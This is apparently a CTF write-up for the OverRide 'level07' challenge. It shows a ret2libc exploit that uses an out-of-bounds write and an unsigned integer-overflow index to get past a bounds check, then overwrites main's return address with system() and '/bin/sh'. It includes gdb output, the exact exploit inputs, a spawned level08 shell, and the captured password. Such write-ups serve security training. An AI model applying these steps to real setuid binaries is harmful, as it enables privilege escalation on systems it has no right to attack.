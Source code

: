 # level07

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program uses some
encryption and the `shell` will be created if we pass a string and a serial number that matches the string.

Through store_number function we can simply access data that out of `buf`'s bounds, including `main`'s return address:
```c
int store_number(char *buf) {
    ...
    num = get_unum();
    index = get_unum();
    if ((index % 3 == 0) || (num >> 0x18 == 0xb7)) {
        // fail
    }
    ((unsigned int *)buf)[index] = num;
    return 0;
}
```

To do that, let's look at the stack:
| Addr (EBP) | Addr (ESP) | Description | Size |
| :-----: | :-----: | :-----: | :-----: | 
| EBP+0x10 | ESP+0x | char **env | 4 bytes |
| EBP+0xc  | ESP+0x | char **argv | 4 bytes |
| EBP+0x8  | ESP+0x | int argc | 4 bytes |
| EBP+0x4  | ESP+0x | return address | 4 bytes |
| EBP+0x0  | ESP+0x | saved EBP | 4 bytes |
| EBP-0x4  | ESP+0x | saved EDI | 4 bytes |
| EBP-0x8  | ESP+0x | saved ESI | 4 bytes |
| EBP-0xc  | ESP+0x | saved EBX | 4 bytes |
| EBP-0x18 | ESP+0x1d0 | stack alignment | 12 bytes |
| EBP-0x1c | ESP+0x1cc | stack canary | 4 bytes |
| EBP-0x30 | ESP+0x1b8 | char cmd[20] | 20 bytes |
| EBP-0x34 | ESP+0x1b4 | ret number | 4 bytes |
| ... | ... | ... | ... |
| EBP-0x1c4 | ESP+0x24 | char buf[100] | 100 bytes |
| EBP-0x1c8 | ESP+0x20 | ... | ... |
| EBP-0x1cc | ESP+0x1c | argv pointer copy | 4 bytes |
| EBP-0x1d0 | ESP+0x18 | env pointer copy | 4 bytes |
| ... | ... | ... | ... |

So, as we need to overwrite return address through `buf`, the offset should equal to `456` bytes:
```
(gdb) ! $((0x1c4 + 0x4))
bash: 456: command not found
```

This is offset in bytes, but the type of the `nums` array is `unsinged int` which size is `4 bytes` on this system:
```c
...
int main(int ac, char **av, char **env) {
    unsigned int nums[25];
...
```
In this case, we must divide our byte offset to 4: `456 bytes / 4 bytes per uint num = 114th num`.

We're going to perform `ret2libc`, so we need to overwrite return address to `system` and pass `/bin/sh` string.<br>
`114` is the index we need to use to write at the address of `main`'s return. <br>
`115` is the index of the address where return address of `system` will be stored. <br> 
`116` is the index of the address of the first system argument.<br>

From the source code above, we see that index has restriction, it should not be a multiple of `3`:
```c
if ((index % 3 == 0) || (num >> 0x18 == 0xb7)) {
    // error
}

// and 456 % 3 == 0
```

Fortunately, we can use overflow to get rid of this restriction.
Whatever index is passed, the program first calculates offset in bytes to get the address of some element.
```asm
    shl    $0x2,%eax        ; Left shift, equals to res *= 4
```

All we need to get the `modified index` is to get the max value of 32bit unsigned int + 1 (4294967296) add our offset in bytes and divide it by 4:
```
(gdb) ! $(((4294967296 + 456) / 4))
bash: 1073741938: command not found
```

The thing is when `1073741938` will be multiplied by 4, the upper bits will be erased:
```
01000000 00000000 00000000 01110010   = 1073741938
<< 2
00000000 00000000 00000001 11001000   = 456 bytes = 114 ints
```

Great! Now the last part we need - address of `system` and `/bin/sh`:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc map
    ...
    Start Addr   End Addr       Size     Offset objfile
    ...
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    ...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh" 
0xf7f897ec
1 pattern found.
```

|   | Addr (hex) | Addr (dec) |
| -----| ----- | ----- |
| system | 0xf7e6aed0 | 4159090384 |
| "/bin/sh" | 0xf7f897ec | 4160264172 |

Exploit:
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd ../level08/
$ ls -la
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

## References
- [bin to dec](https://www.rapidtables.com/convert/number/binary-to-decimal.html)